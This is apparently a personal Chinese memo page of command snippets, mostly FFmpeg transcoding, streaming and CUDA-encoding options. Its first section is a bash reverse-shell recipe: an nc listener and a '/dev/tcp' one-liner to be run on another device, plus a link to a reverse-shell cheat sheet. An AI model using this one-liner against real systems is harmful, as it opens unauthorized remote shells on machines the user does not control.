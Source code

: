 ```yaml
---
title: 备忘录
description: 我什么都记不住
---
```


# 备忘录

## Reverse Shell (Bash TCP) mark

```bash
# 本地开一个 5555 端口监听（extra/gnu-netcat）
nc -lvnp 5555

# 想办法在对面设备上面执行
bash -i >& /dev/tcp/192.168.24.1/5555 0>&1
```

[其他手段](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#reverse-shell)

## FFmpeg

转码

```sh
ffmpeg \
# 输入视频
-i input-1.mp4
# 设置起始时间
-ss 00:01:00
# 设置结束时间
-to 00:02:00
# 设置视频编码格式
-c:v hevc
-c:v copy
# 设置视频码率
-b:v 8M
# 设置音频编码格式
-c:a aac
-c:a copy
# 设置音频码率
-b:a 340k
# 设置输出格式（一般可以自动推断）
-f mp4
# 设置输出文件
output.mp4
```

推流

```sh
ffmpeg \
# 设置推流速度为播放速度
-re
# 输入
-i input-1.mp4
# 设置编码格式
-c copy
# 设置容器格式
-f flv
# 推流地址
rtmp://xxx/xxx
```

### 硬件编解码（需要 cuda）

```sh
ffmpeg \
-hwaccel cuda
-c:v h264_nvenc
-c:v hevc_nvenc
-c:v av1_nvenc
```
